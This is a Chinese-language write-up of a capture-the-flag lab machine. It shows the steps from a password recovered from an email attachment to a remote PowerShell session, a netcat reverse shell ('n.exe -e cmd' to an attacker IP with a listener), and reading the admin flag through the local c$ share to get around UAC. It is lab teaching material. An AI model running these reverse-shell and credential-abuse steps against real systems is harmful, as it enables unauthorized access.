

这是一封给 batman 的邮件，翻到最后存在一个附件



通过 v 来查看附件





成功获取到账号密码为batman/Zx^#QZX+T!123

## 获取shell

进入 powershell 来制作凭据

```
powershell
$username = 'batman'
$password = 'Zx^#QZX+T!123'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
```

```
C:\Users\Alfred>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Alfred> $username = "arkham\batman"
PS C:\Users\Alfred> $password = "Zx^#QZX+T!123"
PS C:\Users\Alfred> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\Users\Alfred> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\Users\Alfred> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\Users\Alfred> new-pssession -computername . -credential $cred

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          localhost       RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\Users\Alfred> enter-pssession 1
[localhost]: PS C:\Users\Batman\Documents> whoami
arkham\batman
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 
```

成功获得shell

```
root@kali# rlwrap nc -lnvp 443 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.130.
Ncat: Connection from 10.10.10.130:49697.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Batman\Documents>
```

# UAC绕过

查看当前用户权限

```
net user batman
```

```
C:\Users\Batman\Documents>net user batman
net user batman
User name                    Batman
Full Name
Comment
User's comment
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            2/3/2019 9:25:50 AM
Password expires             Never
Password changeable          2/3/2019 9:25:50 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/8/2019 12:45:38 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

该用户拥有管理员和远程管理员权限，但是读取 root.txt 时无法访问 administrator 的桌面

```
dir c:\Users\administrator\Desktop
type c:\Users\administrator\Desktop\root.txt
```

```
PS C:\Users\Batman\Documents> type \users\administrator\desktop\root.txt
Access is denied
At line:1 char:1
+ type \users\administrator\desktop\root.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
Cannot find path 'C:\users\administrator\desktop\root.txt' because it does not exist.
At line:1 char:1
+ type \users\administrator\desktop\root.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\desktop\root.txt:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
```

查询权限，判断当前环境为受限状态且 UAC 状态已经启用

```
PS C:\Users\Batman\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

通过本地共享读取root.txt

```
type \\localhost\c$\users\administrator\desktop\root.txt
```



# 总结

smb匿名登陆后发现lucks镜像，成功爆破lucks密码后挂载该镜像，在其中查看相关配置信息。站点中存在JSF ViewState反序列化漏洞，虽然数据是加密的，但是它提供了一个用于执行攻击的密钥从而能够成功获取用户权限，在靶机中发现zip压缩文件，解压后是一个mbox文件，打开该邮件后发现其中存储了管理员的账号密码，通过该账号密码借助powershell上线，成功获取管理员权限，但是其中存在UAC限制，最终可使用msf或本地共享绕过UAC拿到flag。